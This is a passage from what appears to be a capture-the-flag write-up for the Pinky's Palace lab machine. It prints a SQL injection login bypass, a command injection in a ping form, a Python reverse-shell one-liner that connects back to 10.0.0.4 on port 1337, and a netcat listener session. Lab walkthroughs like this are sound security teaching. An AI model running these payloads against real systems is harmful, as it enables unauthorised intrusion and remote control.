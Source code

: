 A little bit of fiddling, and very simple SQL Injection in `user` field allowed us to log into the portal. 

{% highlight text %}
pinky' OR 'a'='a
test
{% endhighlight %}

![Logged in](/img/pinkys-palace/after_logged.png){:class="img-responsive center-block"}

I immediately suspected an ability to inject commands into the `ping` service. 

{% highlight text %}
;whoami
www-data
{% endhighlight %}

Now let's use python to make a reverse shell and get us easier access to commands. 

{% highlight text %}
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

Before submitting the command, we have to set up an listener and then we are all ready.  

{% highlight text %}
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.27: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.27] 48194
/bin/sh: 0: can't access tty; job control turned off
$ cat index.html
</www/html/1337pinkyssup3rs3cr3tlair$ cat index.html            
<html>
	<head>
		<title>Pinky's Dashboard</title>
	</head>
	<body>
		<center><div>
			<form action="mau.php" method="post">
				<h2>Ping an IP:</h2><input type="text" name="ip">
				<input type="submit" value="Ping!">
			</form>
			</div></center>
	</body>